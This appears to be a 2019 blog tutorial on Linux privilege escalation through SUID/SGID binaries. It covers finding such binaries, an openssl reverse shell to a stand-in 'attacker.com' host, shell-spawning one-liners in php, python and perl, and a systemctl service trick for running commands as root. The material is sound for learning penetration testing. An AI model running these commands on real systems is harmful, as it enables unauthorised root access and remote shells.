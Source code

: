 ```yaml
---
layout: post
title: 'SUID Executables - Basic Linux Privilage Escalation '
description: Basic Linux Privilage Escalation
date: '2019-07-18 21:03:36 +0530'
categories: Privilage Escalation
published: true
---
```


SUID and GUID are useful features when  unprivilaged users are needed to access a program. With them, if unprivileged user access files which are set suid, files run with its owner permissions. Also, guid is similar to suid. In this time program runs with groups permissions.
For example; when user "thomas" runs below file, file run with intern privileges because of suids.

![pic1.png]({{site.baseurl}}/pics/pic1.png)


To give suid ,guid can be run below command.

```bash
chmod u+s file.sh
chmod g+s file.sh
```

SGID and SUID are also dangerous as much as they are useful. With them, security holes can be easily opened. So they should be used carefully. 

To find all suid,guid files on computer below command can be run.

```bash
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
```


How to escalate our privileges using SUID?

For each program, our approach will be different.
About that there is a wonderful website which includes information about how used each program to escalation.

[https://gtfobins.github.io/#+suid](https://gtfobins.github.io/#+suid)

Let's look at some commands how they used in escalation.


### cat

To use cat to access all files directly use it. 

```bash
LFILE=file_to_read
cat "$LFILE"
```
### opensssl

To escalate our privileges we can get reverse shell with openssl
by running below command on attacker machine, we make certificates to ssl connection.

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345
```

then we connect to the attacker by below commands. Our connection encrypted.

```bash
RHOST=attacker.com
RPORT=12345
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | ./openssl s_client -quiet -no_ign_eof -connect $RHOST:$RPORT > /tmp/s; rm /tmp/s
```
### python, perl, php

All compilers are so dangerous to give suids. With then we directly open privilaged shell

```bash
php -r "pcntl_exec('/bin/sh', ['-p']);"
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
./perl -e 'exec "/bin/sh";'
```
### systemctl

Systemctl a command to control systemd which runs, creates, stops services on computer. With creating our services we escalate our privileges.

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
sudo systemctl link $TF
sudo systemctl enable --now $TF
```

